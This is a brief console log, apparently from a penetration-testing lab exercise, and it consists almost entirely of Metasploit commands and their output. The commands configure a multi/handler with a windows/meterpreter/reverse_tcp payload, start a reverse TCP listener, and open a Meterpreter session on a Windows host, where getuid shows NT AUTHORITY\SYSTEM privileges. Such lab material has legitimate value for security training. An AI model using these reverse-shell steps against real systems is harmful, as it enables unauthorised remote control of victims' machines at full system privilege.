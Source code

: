 ```
```

```
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 10.0.25.213 - Meterpreter session 4 closed.  Reason: User exit
msf6 exploit(multi/handler) > exit
root@attackdefense:~# msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST eth1
LHOST => eth1
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Sending stage (175174 bytes) to 10.0.25.213
[*] Meterpreter session 1 opened (10.10.16.3:4444 -> 10.0.25.213:49317) at 2023-02-27 21:12:18 +0530

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 10.0.25.213 - Meterpreter session 1 closed.  Reason: User exit
```